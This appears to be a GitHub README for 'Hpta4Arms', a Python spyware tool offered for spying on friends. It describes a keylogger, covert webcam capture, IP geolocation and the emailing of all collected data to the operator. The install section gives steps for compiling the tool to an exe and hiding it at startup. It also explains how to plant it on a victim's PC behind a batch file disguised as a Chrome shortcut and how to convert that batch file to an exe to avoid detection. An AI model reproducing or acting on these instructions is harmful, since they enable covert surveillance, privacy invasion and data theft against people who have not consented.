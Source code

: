 #Hpta4Arms 
is a buggy tool used to spy on your friends it consists of 4 main arms as i love to call them :D those arms are working together to 
grap data from pc and send it via email <br>
`First Arm` : is Key logger that will save your key logs to a file called `log.in` <br>
`Second Arm` : will take photo from your laptop camera and save it in a file called `logg.png` <br>
`Third Arm` : will detect your location using this API freegeoip.net <br>
`Fourth Arm` : will package the last three arms and send them to your email address that you provide <br>

#Working Technique
first thing this is a spying tool so it has to work secretly in the background and run every time the computer is restarting and that is exaclly what `hide()` and `addStartup()`
do so let's start from the beginning : <br>
1. Hpta4Arms will hide itself and added to your start-up apps with the value of true <br>
2. and after that it will open afile called `log.in` and write a `START::` word at the beginning it is a mark for your logs starting<br>
3. it will take a photo and save it to a file called logg.jpg this file will delete himself after it has been sent to the email address<br> 
4. it will detect your location (Lat & lng)--(this might not be accurate because of the API it will detect your first public IP and return it's location)<br>
5. it will send an email to the address you provided with this plain text<br>
'''
My name is YOUR_FRIEND'S_PC_NAME
I am at YOUR_FRIEND'S_LOCATION locate me on the map : http://www.whatsmygps.com/
'''
this message will have two files attached the log.in (Logs Text file) and logg.jpg (photo that has been captured from your friend cam)<br>
<img src = "https://github.com/GardiansLab/Hpta4Arms/blob/master/Capture.PNG">

#Install
first you need to install the python packages to help in building your exe files you can plant it in your friend PC so let's go 
1. you need to install the packages from the requirements.txt file using this command  (navigate to the tool folder using your CMD)
`pip install requirement.txt` <br>
2. you need to specify the from and to email address to can send the email 
open 'Hpta4Arms.py' and goto line 108 & 109 and change the value to your from and to email addresses
Note :you can use the same email to send the message from the same email.<br>
3. go to line 144 and type your password <br>
4. here im using hotmail so in line 142 iam using smtp.live.comif you are using another email i.e gmail,yahoo,...etc you should provide your correct protocol
`smtplib.SMTP('smtp.live.com', 587)`<br>
5. after that you need to get your exe file to prevent the victim from discovering your email and password if he discover the trick so you have pyinstaller then go to your CMD and run 
`pyinstaller Hpta4Arms.py`<br>
6. two files will be created `dist` and `build` navigate to `dist/Hpta4arms/Hpta4arms.exe` you friend has to run this file to enables you spying on him<br>
7. check the "Plant the tool in your friend PC" section to hide the tool with another software. <br>

#Plant the tool in your friend PC
now you have the exe file if you run it a cmd will open and close in a second (it's not closing it's hiding :D )
so more on hiding the tool without discovering it is to create a batch file that run a specific software and the tool in the same time
,most of people are using chrome so i will create a batch file that will run chrome and Hpta4Arms together so, go ahead and create a file called launch.bat
and paste the code in launch.bat in it . <br>
if your friend is using another software replace third line with the path of your friend's favourite software (make sure it is the exe file)
then go to desktop and right click and create shortcut and add the path to this batch file and rename the file chrome so your friend now will 
open this to start working on chrome and the tool is starting in the background <br>

#Give me more
let's suppose your friend is smart he will figure out that this batch file might be buggy so he avoid running it so now you will convert this batch file to exe file 
doing the same task go to bat2exe folder you will find a file called how_to_run.txt to convert any batch file to exe file 

#Examples
in the examples folder you will find testing for each arm alone feel free to edit them and made a pull request if there isn't anything 
working right with you contact me at ahmedkhaled36@hotmail.com

#If you have any problem 
if you are missing some of the modules you can install it using pip or check out this blog i wrote about installing any module [Here](http://ahmed-khd.blogspot.com.eg/2017/01/how-to-install-python-modules-very-easy.html)

#license
The package is open-sourced software licensed under the [MIT license].